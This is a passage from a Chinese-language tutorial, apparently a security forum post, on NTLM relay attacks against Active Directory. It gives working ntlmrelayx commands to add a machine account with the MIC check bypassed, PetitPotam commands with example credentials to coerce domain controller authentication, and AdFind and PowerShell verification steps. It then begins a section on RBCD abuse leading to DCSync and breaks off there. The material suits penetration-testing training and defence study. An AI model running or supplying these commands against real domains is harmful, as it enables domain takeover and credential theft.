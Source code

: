 攻击的思路可以从域内目标资源对象来展开，分为  
针对 ADCS 的攻击  
针对 域内主机资源的 RBCD 攻击  
针对 当前计算机的攻击  
针对 影子账户的攻击

0x01 添加机器账户
===========

> \--add-computer

攻击条件
----

- 强制认证的目标需要有高权限，可以创建用户
- 目标的 ms-DS-MachineAccountQuota 属性不为0
- 目标具有 SeMachineAccountPrivilege 特权

攻击流程
----

1. 启动监听器  
    利用 ntlmrelay 工具中的参数 --add-computer
    
    ```shell
    python3 ntlmrelayx.py -t ldaps://dc01.hack.lab --add-computer JustTest$ --remove-mic
    ```
    
    修改数据包中的值，需要切换协议，因此需要绕过mic验证，使用到参数 --remove-mic  
    JustTest$ 为新增的机器账户名
2. 触发认证  
    可以通过诱导、欺骗和强制验证等手段触发目标NTLM验证，这里使用 PetitPotam 进行强制认证
    
    ```shell
    python3 PetitPotam.py -d hack.lab -u spiderman -p 123.com 20.20.20.100 20.20.20.6
    ```
    
    ![x1UJ5F.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-fd6f0a9239331b5ec4817d69f5b5ae5e794e4fc3.png)
3. 效果分析  
    可以看到成功创建了机器账户  
    查看 mS-DS-CreatorSID 属性，再通过 SID 反查可以看到是辅域控机器账户添加的（20.20.20.6）
    
    ```shell
    
    AdFind.exe -h 20.20.20.5 -u spiderman -up 123.com -b "DC=hack,DC=lab" -f "objectClass=computer" mS-DS-CreatorSID
    ```

$objSID = New-Object System.Security.Principal.SecurityIdentifier S-1-5-21-3309395417-4108617856-2168433834-2102;$objUser = $objSID.Translate(\[System.Security.Principal.NTAccount\]);$objUser.Value

```php
![x1U8ET.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-88ffdab843f7420abee397f1be01c5543a515c23.png)

拓展

# 0x02 修改目标服务器 RBCD 属性
> --delegate-access
> --escalate-user

## 攻击原理
强制 NTLM 验证后对目标服务器 RBCD 属性进行修改，指向一个新的机器账户（或已存在的）。之后的流程就和 RBCD 攻击一致，利用该机器账户进行后渗透（DCSync）

条件：
- 域控支持 LDAPS 协议
- 能创建机器账户或已有可控的机器账户

## 攻击流程
```
